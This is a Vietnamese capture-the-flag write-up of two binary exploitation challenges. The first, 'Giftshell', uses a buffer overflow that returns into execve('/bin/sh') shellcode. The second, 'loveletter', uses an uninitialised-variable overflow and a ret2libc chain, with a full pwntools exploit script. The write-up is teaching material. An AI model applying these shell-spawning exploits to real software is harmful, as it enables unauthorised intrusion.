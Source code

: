  
 
 
### 1. Giftshell
**Tóm tắt đề :**

1 file giftshell để chạy trên linux 

**Ý tưởng:**

- Đầu tiên mình sài IDA để decompile

![](https://i.imgur.com/TBsp4PM.png)

- Nhận thấy có lỗi buffer overflow do biến `buf` khai báo có 112 byte mà nhập tới 128 byte, cùng với việc đề leak địa chỉ biến `buf` ra ở `printf` thì khá chắc chắn là lỗi return to shellcode
- Vậy ta sẽ sử dụng địa chỉ biến `buf` bị leak để ret về đó, từ địa chỉ biến buf trở về sau chính là shell code của ta.
- Do mình lười nên lên mạng chép mã assembly để lấy shell, ở đây mình lên dreamhack để lấy.



    mov rax, 0x68732f6e69622f
    push rax
    mov rdi, rsp  ;
    xor rsi, rsi  ;
    xor rdx, rdx  ; 
    mov rax, 0x3b ;
     syscall ;
    
- Phần padding còn lại mình fill bằng byte `\x90` tức là `nop` trong assembly x86.
- Kế tiếp ta vào gdb để tìm offset cho ret. Ở đây ta được 120. 

![](https://i.imgur.com/9KcRPR0.png)

- Tiếp theo ta tìm số bytes của shellcode. Chạy script dưới ta được số byte là 29.

![](https://i.imgur.com/NPr8ND5.png)

- Do đó thứ tự payload sẽ là 29 byte shellcode, 91 byte nop và cuối cùng là 8 byte địa chỉ để ret vào. Vậy giờ ta sẽ viết script để viết ý tưởng trên. 

![](https://i.imgur.com/zFMHWrS.png)

- Chạy script trên ta đã lấy được shell.

### 2. loveletter
**Tóm tắt đề :**
- 1 file source 
- 1 file dockerfile
- 1 file docker-compose 

**Ý tưởng :**
- Đầu tiên mình decompile bằng IDA.

![](https://i.imgur.com/zflRfBI.png)

- Ta thấy control flow của chương trình như sau : chạy hàm loveletter -> yêu cầu nhập -> chạy hàm doubt -> nếu chọn Y thì sẽ set buffer cho biến `v1`, còn không thì chưa rõ do không khai báo.
- Tới đây ta cần phân tích rõ thứ tự các biến trong stack để coi có ghi đè được biến `v1` không vì khi đó ta sẽ tuỳ ý chọn số byte để nhập.
- Ta nhận thấy biến `v1` của hàm `loveletter` tức là mảng `buff[MAX_BUFFER + 69]` trong source và biến v1 của hàm `doubt` gần nhau. Ta có phân tích như sau:

![](https://i.imgur.com/xxLXtTB.png)

- Khi ta nhập full byte của biến `buf` trong hàm `loveletter` rồi chuyển qua hàm `doubt`, do biến `v1` không khai báo nên sẽ nhận giá trị ở vị trí `rsp+0xC` (stack không clear sau khi thực hiện xong hàm). Ta sẽ lợi dụng điều này để lấy shell.
- Do EX đã tắt và đây là file ELF 64 bit nên ta sẽ làm theo dạng return2libc 64bit

![](https://i.imgur.com/DUobQxU.png)

- Do đây là dạng cơ bản nên ta chỉ cần tìm gadget của từng phần viết script.

![](https://i.imgur.com/4ZQeiY2.png)

- Kết hợp tất cả thông tin rồi ta sẽ viết được script này

'''python

    from pwn import *
    
    context.binary = exe = ELF('./main', checksec=False)
    libc = ELF('libc.so.6', checksec=False)
    p = process(exe.path) 
    p.sendafter(b'> ', b'A'*4000) 
    p.sendafter(b'> ', b'A'*2969)
    
    p.recvuntil(b'?\n')
    p.sendafter(b'> ', b'Y')
    payload = b'A'*264
    pop_rdi = 0x00000000004014b3
    payload += p64(pop_rdi) + p64(exe.got['puts'])
    payload += p64(exe.plt['puts'])
    payload += p64(exe.sym['main'])
    
    p.recvuntil(b'w.\n')
    p.sendafter(b'> ', payload)
    p.recvuntil(b'!\n')
    libc_leak = u64(p.recv(6) + b'\x00\x00')
    libc.address = libc_leak - libc.sym['puts']
    
    p.sendafter(b'> ', b'A'*4000) 
    p.sendafter(b'> ', b'A'*2969)
    p.recvuntil(b'letter?\n')
    p.sendafter(b'> ', b'Y')
    
    ret = 0x000000000040101a
    payload = b'A'*264 + p64(ret)
    payload += p64(pop_rdi) + p64(next(libc.search(b'/bin/sh')))
    payload += p64(libc.sym['system'])
    p.recvuntil(b'now.\n')
    p.sendafter(b'> ', payload)
    p.interactive()
    
'''
- Chạy thử và ta sẽ có được shell.
